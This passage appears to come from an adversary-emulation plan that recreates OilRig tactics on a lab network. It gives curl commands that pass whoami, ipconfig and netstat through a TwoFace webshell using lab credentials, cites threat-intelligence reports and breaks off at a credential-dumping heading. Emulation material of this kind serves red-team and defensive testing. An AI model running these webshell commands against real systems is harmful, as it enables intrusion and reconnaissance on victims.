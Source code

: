 
### ☣️ Procedures

On Linux Attack Platform box, change directories to the TwoFace payload folder:

```
cd /opt/oilrig/Resources/payloads/TwoFace
```

Use the webshell to enumerate the current user.

```bash
# OilRig has run whoami on a victim.[3][4][10]

curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' -k -X POST --data "pro=cmd.exe" --data "cmd=whoami" https://10.1.0.6/ews/contact.aspx
```

Enumerate the system network configurations.

```bash
# OilRig has run ipconfig /all on a victim.[3][4]

curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' -k -X POST --data "pro=cmd.exe" --data "cmd=ipconfig /all" https://10.1.0.6/ews/contact.aspx
```

Use the webshell to perform network discovery on `WATERFALLS (10.1.0.6)`, 
discovering a connection to host 10.1.0.7 via a port commonly associated with 
SQL.

```bash
# OilRig has used netstat -an on a victim to get a listing of network connections.[3]

curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' -k -X POST --data "pro=cmd.exe" --data "cmd=netstat -an" https://10.1.0.6/ews/contact.aspx
```

<br>

### :moyai: Source Code
*  TwoFace Webshell instruction parsing: [contact.aspx#L12-L21](../Resources/TwoFace/contact.aspx#L12-L21)
*  TwoFace Webshell command execution: [contact.aspx#L176-L194](../Resources/TwoFace/contact.aspx#L176-L194/)

<br>

### :microscope: Cited Intelligence
*  TwoFace: https://unit42.paloaltonetworks.com/unit42-twoface-webshell-persistent-access-point-lateral-movement/
*  Network discovery: https://unit42.paloaltonetworks.com/the-oilrig-campaign-attacks-on-saudi-arabian-organizations-deliver-helminth-backdoor/

<br>


## Step 6 - Privileged Credential Dumping

